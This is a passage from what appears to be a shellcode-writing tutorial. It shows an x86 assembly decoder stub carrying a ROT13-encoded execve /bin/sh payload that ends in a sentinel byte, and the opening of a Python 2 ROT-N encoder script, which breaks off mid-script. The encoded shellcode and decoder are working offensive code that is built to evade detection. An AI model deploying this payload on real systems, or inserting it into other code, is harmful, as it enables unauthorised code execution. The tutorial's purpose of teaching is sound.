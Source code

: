 Check the assembly code we used earler, it's already using the SUB
instruction, which affects registers. What if we add an additional byte of
value N (in this case it's 13), so when it's subtracted, followed by a JZ jmp
instruction, we know that we reached the end of the shellcode?  
  
**Modified assembly wrapper**  

    
    
    ; Rot13ExecveSh.asm  
    ; by Abatchy  
    ;  
    ;   nasm -felf32 Rot13Encoder.asm && ld -o Rot13Encoder Rot13Encoder.o  
    ; Generated shellcode:   
      
    global _start  
      
    section .text  
      
    _start:  
          
        jmp short get_shellcode_addr    ; Get address of shellcode  
      
    ReturnLabel:  
        pop esi                 ; Store address of "shellcode" in esi  
    decode:  
        sub byte [esi], 13      ; Decode byte at [esi]  
        jz shellcode              
        inc esi  
        jmp short decode  
      
    get_shellcode_addr:  
        call ReturnLabel  
        shellcode: db  0x3e, 0xcd, 0x5d, 0x96, 0xef, 0x75, 0x3c, 0x3c, 0x80, 0x75, 0x75,   
                       0x3c, 0x6f, 0x76, 0x7b, 0x96, 0xf0, 0x5d, 0xbd, 0x18, 0xda, 0x8d, **0x0d**  
    

  

#### 5\. Python wrapper to support ROT-N

####  

Wrapper below basically dissects the shellcode to replace instances where N is
used, and encodes the payload, also shows a warning message if shellcode
generated contains any null bytes.  

    
    
    #!/bin/python  
      
    import sys  
      
    def parse_args():  
        if len(sys.argv) < 2:  
            print "Usage: {0} N, where N is the number of rotations to be made".format(sys.argv[0])  
            print "[+] Using default value of N = 13"  
            return 13  
        else:  
            x = int(sys.argv[1]) % 256  
            if x < 1:  
                print "[-] Invalid number of rotations"  
                exit()  
            return x  
      